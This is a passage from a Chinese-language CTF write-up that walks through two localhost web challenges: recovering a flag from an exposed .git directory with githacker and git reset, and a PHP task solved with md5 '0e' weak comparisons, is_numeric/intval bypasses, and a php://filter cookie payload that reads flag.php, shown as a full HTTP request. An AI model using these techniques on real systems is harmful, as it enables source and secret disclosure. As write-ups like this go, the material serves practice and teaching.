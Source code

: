 ```http
```

### repo_leak

Notice 提示 `Using Git for version control`, 存在 `.git` 泄露

```bash
githacker --url http://localhost:8013/ --output-folder test
```

`git commit` 查看历史 commits

![image-20230928150100762](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021205710.png)

回退到上一个版本

```bash
git reset --hard HEAD^
```

本地再起一个 http server 就能看到 flag 了

![image-20230928150214666](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021206746.png)

或者对着本地文件嗯搜也行

### baby_php

首先是 PHP md5 0e 的弱类型比较,  `0e123213` 会被当做科学计数法, 类型转换之后就是 `0`

然后需要绕过 `is_numeric` 和 `intval`

`is_numeric` 如果包含一些乱七八糟的东西比如空格, 字母之类的就会返回 False

`intval` 在类型转换的时候会取整, 因此可以加个小数点, 并且 intval 也会截断非数字的部分

最后是 PHP 伪协议的利用, 需要用 `php://filter` 的过滤器将 flag.php 的内容进行 base64 编码, 最后解码就能拿到 flag

```http
POST /?a=240610708&b=s878926199a HTTP/1.1
Host: localhost:8014
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: name=php://filter/read=convert.base64-encode/resource=flag
Content-Length: 9

c=1024.1a
```
